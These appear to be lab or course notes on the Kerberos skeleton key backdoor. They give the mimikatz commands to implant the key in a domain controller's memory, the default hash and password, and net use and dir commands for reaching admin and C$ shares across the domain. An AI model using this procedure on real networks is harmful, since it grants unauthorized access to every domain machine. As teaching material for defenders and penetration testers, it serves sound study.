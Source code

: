 # Backdoor in Kerberos

Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password.  
The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps.  
A skeleton key only works using Kerberos RC4 encryption.  
The default hash for a mimikatz skeleton key is `60BA4FCADC466C7A033C178194C03DF6` which is the password `mimikatz`

```cmd
mimikatz.exe
privilege::debug
```
As always, check if you have admin perms
```cmd
misc::skeleton
```

### Accessing the forest
The default credentials will be: "mimikatz"

example: 
```cmd
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```
- The share will now be accessible without the need for the Administrators password

example: 
```cmd
dir \\Desktop-1\c$ /user:Machine1 mimikatz 
```
- access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.